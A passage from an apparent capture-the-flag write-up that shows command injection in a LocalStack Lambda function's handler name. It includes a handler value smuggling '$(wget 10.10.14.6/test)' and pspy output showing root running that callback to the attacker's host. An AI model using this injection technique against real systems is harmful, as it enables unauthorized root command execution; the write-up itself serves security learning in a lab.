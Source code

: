     docker create -i --rm "lambci/lambda:nodejs12.x" "index.handler"
    

What’s interesting here is that I control the input for the image name and the
function that’s called.

#### POC

To test for command injection in the `--handler` option, I’ll create a Lambda
with a subshell in it to `wget` the path `/test` on my host:

    
    
    oxdf@hacky$ aws lambda create-function --function-name 'ex' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --handler 'index.handler$(wget 10.10.14.6/test)' --runtime nodejs12.x
    {
        "FunctionName": "ex",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex",
        "Runtime": "nodejs12.x",
        "Role": "arn:aws:iam::123456789012:role/lambda-role",
        "Handler": "index.handler$(wget 10.10.14.6/test)",
        "CodeSize": 291,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2021-08-25T20:49:18.858+0000",
        "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "1fbfe1e9-d714-4a7c-b0d0-d303dc15650e",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    }
    

When I invoke this, it fails:

    
    
    oxdf@hacky$ aws lambda invoke --function-name ex --endpoint-url http://s3-testing.stacked.htb out.json
    {
        "StatusCode": 200,
        "FunctionError": "Unhandled",
        "LogResult": "",
        "ExecutedVersion": "$LATEST"
    }
    

At `pspy`, the same three processes, but one more before it:

    
    
    2021/08/25 20:55:27 CMD: UID=0    PID=1389   | wget 10.10.14.6/test 
    2021/08/25 20:55:27 CMD: UID=0    PID=1388   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs12.x" "index.handler;$(wget 10.10.14.6/test)")";docker cp "/tmp/localstack/zipfile.0e05eb2c/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID"; 